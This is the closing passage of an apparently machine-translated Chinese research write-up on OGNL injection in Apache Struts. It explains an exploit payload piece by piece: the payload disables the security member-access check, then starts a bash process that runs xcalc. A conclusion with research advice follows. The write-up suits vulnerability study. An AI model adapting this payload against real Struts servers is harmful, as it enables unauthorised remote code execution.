7.  **#dm=@ognl。OgnlContext@DEFAULT *成员*访问**–用值`DefaultMemberAccess`定义变量 dm

8.  **# context . set member access(# DM)**–设置`DefaultMemberAccess`而不是`SecurityMemberAccess`

9.  **# sl = @ Java . io . file @ separator**–未使用

10.  **# p = new Java . lang . ProcessBuilder({ ' bash '，'-c '，' xcalc ' })**–用命令(xcalc)声明 process builder

11.  **# p . start()**–执行命令

## 9.结论

尽管 Apache Struts 是一个众所周知且广泛使用的框架，但由于缺乏公共安全研究，它仍然是一个容易攻击的目标。关于这个话题最有用的公共研究知识可以在 LGTM 的博客上找到。

OGNL 注入漏洞影响 Apache Struts 的多个版本，是如何通过滥用代码中的现有功能来远程执行代码的一个很好的例子。

一开始，利用可能看起来很困难，但实际上并不困难，调试器总是会有所帮助。对于安全研究人员来说，熟悉 Java 可能很难，但这最终会变成一种优势。

全新的研究，耐心是最宝贵的品质。我们的建议是，当事情变得艰难时，不要扔掉你的玩具。并且经常提问——安全社区很友好，也很有帮助。